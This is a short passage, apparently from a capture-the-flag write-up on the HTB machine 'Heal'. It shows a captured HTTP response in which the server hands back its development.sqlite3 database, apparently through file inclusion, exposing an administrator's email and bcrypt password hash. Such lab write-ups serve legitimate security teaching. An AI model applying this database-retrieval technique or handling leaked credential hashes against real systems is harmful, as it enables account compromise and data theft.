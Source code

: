 ```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Dec 2024 20:29:41 GMT
Content-Type: application/octet-stream
Content-Length: 32768
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="development.sqlite3"; filename*=UTF-8''development.sqlite3
content-transfer-encoding: binary
cache-control: no-cache
x-request-id: afd72e91-46f2-4212-b6fb-0abcb16d634d
x-runtime: 0.002914
vary: Origin

SQLite format 3
<--- CUT FOR BREVITY --->
ralph@heal.htb$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG2024-09-27 07:49:31.6148582024-09-27 07:49:31.614858Administratorralph
<--- CUT FOR BREVITY --->
```

![](images/2024-12-14_21-30_lfi_database.png)
